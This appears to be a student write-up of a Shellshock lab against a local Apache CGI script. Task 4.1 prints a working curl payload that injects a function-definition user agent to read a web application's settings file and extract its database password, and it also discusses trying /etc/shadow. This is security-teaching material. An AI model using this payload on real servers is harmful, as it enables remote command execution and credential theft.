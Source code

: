 ## Task03
### 3.1 Modify the code in myprog.cgi
At first, we use `vim` to change the codes. Our new codes are shown in codes section below: 
```shell
#!/bin/bash_shellshock

echo "Content-type: text/plain"
echo
echo "******Environment Variables ****** "
strings /proc/$$/environ
```
### 3.2 Transfer environment variables 
When the Apache web server in our VM receives a CGI request from a user, it will use `fork()` to create a new process at first. And then, it will invoke one of the `exec()` methods to execute the specified CGI program. During the process, the server uses the environmental variables to transfer many data (such as User-Agent and Referer etc.) to the forked program. 
Therefore, we can use the option `-A` to define the user agent of our request, which allow us to change the environment variable to the server. 
```shell
$ curl http://localhost/cgi-bin/myprog.cgi -A "TEST" | grep USER_AGENT
```
The command above were used, in which we specified the user agent by `-A "TEST"`. Besides, we used `grep` to search all environmental variables to find out value of the `HTTP_USER_AGENT`. Image below is the output for the command: 
![](/assets/images/media/16326883206491/16326984887666.jpg)

## Task04
### 4.1 Launch an attack 
We use the command below to launch an attack, in which I also use the curl with options `-s` to make response shorter and `-A` specified user agent.
```shell
$ curl http://localhost/cgi-bin/myprog.cgi -s -A \
"() { echo hello; }; echo Content_type: text/plain; echo;\
/bin/cat /var/www/CSRF/Elgg/elgg-config/settings.php" \
| grep -s 'dbpass = ' 
```
Our code tries to steal the database password stored inside the `setting.php` file. `echo Content_type: text/plain;` is also essential, which defines a field in the head of the response. Without such a field, PHP will return an error.  Image below is the output of the command, which shows us the password of the database. 
![](/assets/images/media/16326883206491/16326999112287.jpg)

### 4.2 Why not /etc/shadow?
I do not think it is possible to remotely access the script's `/etc/shadow` file because that file is only readable with the root privilege. We used the `ll` command to verify that and tried to access that file by `cat`. The image below shows what we got. 
![](/assets/images/media/16326883206491/16327003348200.jpg)
